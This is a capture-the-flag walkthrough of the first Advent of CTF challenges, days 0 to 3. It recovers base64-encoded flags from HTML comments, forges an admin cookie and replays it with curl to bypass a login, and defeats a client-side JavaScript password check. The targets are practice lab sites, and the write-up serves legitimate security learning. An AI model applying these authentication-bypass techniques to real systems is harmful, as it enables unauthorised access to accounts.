 # Day 0
## Description
Do you remember the flag in the teaser website?

## Methodology
We go to [webarchive.org](http://web.archive.org/) and we search for [adventofctf.com](http://web.archive.org/web/20201112020839/https://www.adventofctf.com/). By searching for `<!-- END WAYBACK TOOLBAR INSERT -->` to get the source web of [adventofctf.com](https://adventofctf.com/) by found: `<!-- Ceasar worked on this you know. Tk9WSXtIRVlfMVNfVGgxU19AX0ZsYTk/fQ== -->` the end look like base64.

```bash
$ echo "Tk9WSXtIRVlfMVNfVGgxU19AX0ZsYTk/fQ==" | base64 -d
NOVI{HEY_1S_Th1S_@_Fla9?}
```

# Day 1
## Description
All starts should be easy

Visit https://01.adventofctf.com to start the challenge.

## Methodology
By visiting the provided URL, the have a login form asking for santa's password in plain text. Above the login form there is text saying: "We start off with an easy flag, just to get you familiar with the CTF system. Can you find the flag?". If it is easy, we must of at the HTML source first. By looking quickly in the HTML source we found the following comment: `!-- This is an odd encoded thing right? YWR2ZW50X29mX2N0Zl9pc19oZXJl -->`. This must be base64, let's try:

```bash
echo "YWR2ZW50X29mX2N0Zl9pc19oZXJl" | base64 -d 
advent_of_ctf_is_here
```

And we get the flag by submitting the previous password: `Here is a flag: NOVI{L3T_7H3_M0NTH_0F_FUN_START}`

# Day 2
## Description
For the 2nd challenge you will need to bypass the login mechanism.

Visit https://02.adventofctf.com to start the challenge.

## Methodology
The given URL leads to a login form, by exploring the sources, we saw that the login form request `index.php`, we can't abuse direct page requesting. By submiting random username and password the page says: `I'm sorry Guest, I can not do that.`. We are considered as a guest, intresting. May we look at the cookie? In the cookie there is the following filed: `authenticated: "eyJndWVzdCI6InRydWUiLCJhZG1pbiI6ImZhbHNlIn0="`. By decoding this base64 we have: 
```bash
$ echo "eyJndWVzdCI6InRydWUiLCJhZG1pbiI6ImZhbHNlIn0=" | base64 -d
{"guest":"true","admin":"false"}
```

Great, what we have to is the forge a request where admin is **true** and guest is false:
```bash
$ echo '{"guest":"false","admin":"true"}' | base64
eyJndWVzdCI6ImZhbHNlIiwiYWRtaW4iOiJ0cnVlIn0K
curl 'https://02.adventofctf.com/index.php' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: https://02.adventofctf.com' -H 'Connection: keep-alive' -H 'Referer: https://02.adventofctf.com/index.php' -H 'Cookie: authenticated=eyJndWVzdCI6ImZhbHNlIiwiYWRtaW4iOiJ0cnVlIn0K' -H 'Upgrade-Insecure-Requests: 1' --data-raw 'username=dfsdf&password=hghf'
<html class="no-js" lang="">
    <head>
[...]
                        NOVI{cookies_are_bad_for_auth}
[...]
	<body>
</html>
```

# Day 3
## Description
For this challenge you will, again, need to bypass the login mechanism.

Visit https://03.adventofctf.com to start the challenge.

## Methodology
As in day 2, we have to bypass the login mechanism. In the sources, the form login call the checkPass(); functionon the sumbit action. The code of the function is:
```javascript
function checkPass()
{
    var username = document.getElementById('username').value;
    var password = document.getElementById('password').value;

    var novi = '-NOVI';

    if (password == btoa(username + novi)) {
        window.setTimeout(function() {
            window.location.assign('inde' + 'x.php?username='+ username +'&password=' + password);
        }, 500);
    }
}
```
So, we have to chose a random username, than call btoa with the chosen username and append -NOVI to it. The flag is: `NOVI{javascript_is_not_s@fe}`
